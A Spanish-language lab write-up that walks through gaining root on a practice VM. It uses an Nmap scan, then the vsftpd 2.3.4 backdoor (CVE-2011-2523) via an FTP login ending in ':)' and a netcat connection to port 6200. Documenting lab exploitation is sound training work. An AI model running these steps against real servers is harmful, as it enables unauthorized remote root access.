





# 🛡️ Write-Up: Myfirsthacking.zip

- **Dificultad:** Muy fácil  
- **Objetivo:** Obtener acceso inicial

---

Se descomprime el archivo `Myfirsthacking.zip` y se ejecuta la máquina virtual.



Se realiza un escaneo completo de puertos con Nmap:

```bash
nmap -p- -sC -sV --open -sS -n -Pn <IP>
```

Parámetros utilizados:

-p-: escaneo de todos los puertos
-sC: scripts por defecto
-sV: detección de versiones
--open: muestra solo puertos abiertos
-sS: SYN scan (sigiloso)
-n: evita resolución DNS
-Pn: omite ping previo



📌 Resultados
Puerto 21: FTP

Observamos que la versión del servicio FTP es 2.3.4, esta posee una vulnerabilidad conocida como vsftpd 2.3.4 backdoor o CVE-2011-2523. Esta versión de vsftpd contiene un backdoor que, al autenticarse con un usuario terminado en :), abre un shell en el puerto 6200, el cual permite ejecución remota de comandos.

```bash
ftp 'asd:)@172.17.0.2'
```



*agregamos las comillas para que la consola no interprete que los simbolos son para agregar código. 

Colocamos cualquier clave y quedará en espera, dejarlo así. Abrimos otra consola y hacemos escaneo nmap nuevamente a fin de ver si abrió el mencionado puerto 6200



Efectivamente abrió, así que colocamos el siguiente código

```bash
nc -nv <IP> 6200
```



Resultado:

root
✅ Conclusión

Se logró:

Acceso inicial ROOT mediante vulnerabilidad conocida en versión antigua de FTP.

✔️ Se obtuvo acceso root exitosamente, completando el laboratorio.

📚 Lecciones aprendidas
Siempre observar versiones de los servicios encontrados, a fin de aumentar el vector de ataque. 
